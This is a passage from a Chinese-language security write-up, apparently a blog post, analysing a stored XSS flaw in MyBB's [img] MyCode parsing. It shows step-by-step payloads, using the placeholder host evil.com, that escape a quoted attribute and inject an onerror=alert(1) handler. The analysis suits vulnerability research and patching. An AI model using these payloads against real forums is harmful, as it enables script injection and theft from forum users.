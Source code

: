 ```
&lt;a href="http://test.com/abc" target="_blank" rel="noopener" class="mycode_url"&gt;http://test.com/abc&lt;/a&gt;
```

### <a class="reference-link" name="%E5%89%8D%E5%90%8E%E4%BB%A3%E7%A0%81%E6%B5%81%E7%A8%8B%E7%BB%93%E5%90%88%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86%E8%BF%9B%E8%A1%8C%E5%88%86%E6%9E%90"></a>前后代码流程结合漏洞原理进行分析

前文说过，一般的 XSS的创建就两种方式：插入html标签 和 原有标签引号逃逸。

然后 mybb 中存在过滤机制，我们无法直接输入 尖括号 以及 在模板标签中输入引号将会不解析模板标签。

**既然我们无法输入尖括号和双引号，那能否让 mybb 为我们输入呢？**

mybb 会为 url 创建一个 a标签，会产生成 尖括号和引号。并且 mybb 还有自带的模板标签，也产生成 尖括号和引号。

如果我们将这两者放在一起，是否会产生尖括号逃逸或引号逃逸呢？

**payload调试**<br>
测试 payload：（不能用 [url]，因为正则匹配那一段如果匹配到 a标签将会直接返回）

```
[img])http://evil.com/xx[/img]
[-- 理想输出 --]
&lt;img src="&lt;a href="http://evil.com/xx" "&gt;http://evil.com/xx&lt;/a&gt;/&gt;
[-- 实际输出 --]
//没将[img]解析成 html
[img])&lt;a href="http://evil.com/xx" target="_blank" rel="noopener" class="mycode_url"&gt;http://evil.com/xx&lt;/a&gt;[/img]
```

跟进函数 `class_parser.php:459, postParser-&gt;parse_mycode()`，发现 `[img]` 需要符合以下 正则 才能被转换成 html

```
#\[img\](\r\n?|\n?)(https?://([^&lt;&gt;\"']+?))\[/img\]#is
.......
```

发现关键正则 `(https?://([^&lt;&gt;\"']+?))`。这意味着 http:// 后面的值除了不能输入 引号 和 尖括号，其他都是可以随便输入的。

**重新构造 payload：**<br>
注意payload 改成了 **.com/xx&lt;span style=”color:red”&gt;(&lt;/span&gt;http://**

```
[img]http://evil.com/xx(http://evil.com/xx[/img]
[-- 输出 --]
&lt;img src="http://evil.com/xx(&lt;a href=" http:="" evil.com="" xx"="" target="_blank" rel="noopener" class="mycode_url"&gt;http://evil.com/xx" loading="lazy"  alt="[Image: xx]" class="mycode_img" /&amp;gt;
```

成功逃逸双引号！仔细观察发现：原 url 中的 `/` 在html中表示为**每个属性的分割**，即上面的 `http:=""` 、 `xx="=""` 等

`xx` 作为了`img` 属性值。我们将之修改为 onerror：

payload：

```
[img]http://evil.com/xx(http://evil.com/onerror=alert(1)[/img]
[-- 输出 --]
&lt;img src="http://evil.com/xx(&lt;a href=" http:="" evil.com="" onerror="alert(1)&amp;quot;" target="_blank" rel="noopener" class="mycode_url"&gt;
```
